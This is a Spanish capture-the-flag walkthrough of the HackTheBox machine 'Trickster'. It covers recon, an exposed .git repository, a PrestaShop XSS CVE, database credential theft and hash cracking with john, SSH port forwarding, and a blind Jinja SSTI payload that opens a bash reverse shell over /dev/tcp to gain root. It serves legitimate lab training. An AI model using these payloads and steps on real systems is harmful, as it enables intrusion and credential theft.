Realizo un escaneo de puertos
nmap -sVC -p- --open -sS --min-rate 5000 -v -n -Pn -oN trickster_scan <IP_target>
Puertos 22 (SSH) y 80 (HTTP) abiertos
Subdominio encontrado http://shop.trickster.htb/
Encuentro un login

Con un whatweb obtengo la versión de Apache Apache[2.4.52]
Puedo crear una cuenta

Encuentro el directorio http://shop.trickster.htb/.git/
En config encuentro al usuario admin

En los logs encuentro que se hizo un commit del admin_panel
0000000000000000000000000000000000000000 0cbc7831c1104f1fb0948ba46f75f1666e18e64c adam <adam@trickster.htb> 1716538399 -0400 commit (initial): update admin pannel
Con Git_dumper puedo ver el commit que se hizo
Este es el hash de dicho commit 0cbc7831c1104f1fb0948ba46f75f1666e18e64c
Parece que tiene una vuln File Upload
Si selecciono un productp puedo ver una coockie con Burp

Tambien me menciona Prestashop
Encuentro este directorio http://shop.trickster.htb/admin634ewutrx1jgitlooaj
Esto me lleva a otro login de Prestashop con versión Prestashop 8.1.5

Encuentro el archivo robots.txt pero no aporta nada de info
Encuentro que existe un archivo admin634ewutrx1jgitlooaj/filemanager/force_download.ph
Encuentro un XSS CVE-2024-34716

Obtengo el reverse shell
en ./var/www/prestashop/app/config/parameters.php obtengo unas creds
mysql -h 127.0.0.1 -u ps_user -p prestashop
prest@shop_o
select * from ps_employee;
Obtengo las creds del usuario james
james --> $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

accedo a través de SSH

Hay 2 Users mas

Subo el archivo linpeas.sh y le cambio los permisos con chmod 755 linpeas.sh para poder ejecutarlo
Encuentro esta script ejecutada como runner
runner 1243 0.0 0.6 33660 24520 ? Ss Sep23 0:16 /usr/bin/python3 /home/runner/prestashop/AutoVisitAttach.py
Puertos activos

Puede que por prusaslicer

Puede que con tenga Arbitrary File Upload PrusaSlicer 2.6.1 - Arbitrary code execution - Multiple local Exploit (exploit-db.com)
Parece que hay un contenedor de docker

Hago un portforwarding
ssh -L 5000:172.17.0.2:5000 james@trickster.htb
Con este codigo puedo poner el reverse shell
get://ip/lone → BLIND SSTI (Server Site Template Injection)
{% for x in ().__class__.__base__.__subclasses__() %}
{% if "warning" in x.__name__ %}
{{ x()._module.__builtins__['__import__']('os').popen("/bin/bash -c '/bin/bash -i >& /dev/tcp/<IP>/9999 0>&1'").read() }}
{% endif %}
{% endfor %}
Obtengo el shell como root

En el historial de bash encuentro una password

Con esta pass la reuso para entrar como root en la maquina
